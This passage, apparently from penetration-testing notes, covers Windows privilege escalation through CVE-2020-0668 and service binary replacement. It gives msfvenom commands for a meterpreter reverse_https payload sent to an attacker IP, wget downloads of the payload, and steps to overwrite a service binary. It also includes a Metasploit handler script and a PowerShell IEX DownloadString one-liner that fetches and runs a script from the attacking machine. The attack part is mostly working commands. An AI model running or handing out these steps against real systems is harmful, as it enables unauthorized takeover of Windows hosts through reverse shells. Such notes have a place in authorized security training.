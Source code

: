   - Check for a third party serv that can be leverage. Check perm on a binary `icacls "c:\path\to\leverage-bin.exe"`
  - Generate a malicious file `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ATTACK-IP LPORT=PORT -f exe > leverage-bin.exe`
  - `python3 -m http.server 80` serve the binary
  - Download 2 copy of the binary
    - `wget http://ATTACK-IP/leverage-bin.exe -O leverage-bin.exe`
    - `wget http://ATTACK-IP/leverage-bin.exe -O leverage-bin2.exe`
  - Run the exploit `C:\CVE-2020-0668\CVE-2020-0668.exe C:\Users\user\Desktop\leverage-bin.exe "c:\path\to\leverage-bin.exe"`
  - Check perm of new file `icacls 'c:\path\to\leverage-bin.exe'`
  - Replace with malicious binary `copy /Y C:\Users\user\Desktop\leverage-bin2.exe "c:\path\to\leverage-bin.exe"`
  - Use a Metasploit Resource Script
    - Make a file named handler.rc and put this in it
      ```
      use exploit/multi/handler
      set PAYLOAD windows/x64/meterpreter/reverse_https
      set LHOST <our_ip>
      set LPORT 8443
      exploit
      ```
    - Launch metasploit this the resource script `msfconsole -r handler.rc`
  - Start the service `net start leverage-serv`
  - Even if we get an error we should have a reverse shell in meterpreter

### Tools

#### Executables

- [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.
- [Watson](https://github.com/rasta-mouse/Watson) is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.
- [Seatbelt](https://github.com/GhostPack/Seatbelt) C# project for performing a wide variety of local privilege escalation checks
- [SharpUp](https://github.com/GhostPack/SharpUp) C# version of PowerUp

#### PowerShell

##### Sherlock

[Sherlock.ps1](https://github.com/rasta-mouse/Sherlock) is a powershell script that will give exploit related to the target.  
  It can also be found here on kali if empire is installed `/usr/share/powershell-empire/empire/server/data/module_source/privesc/Sherlock.ps1`
- We can launch it with cmd like this (has to be served through an http server from the attacking machine)  
  `echo IEX(New-Object Net.WebClient).DownloadString('http://ATTACK-MACHINE-IP/Sherlock.ps1') | powershell -noprofile -`
- Launch from Powershell
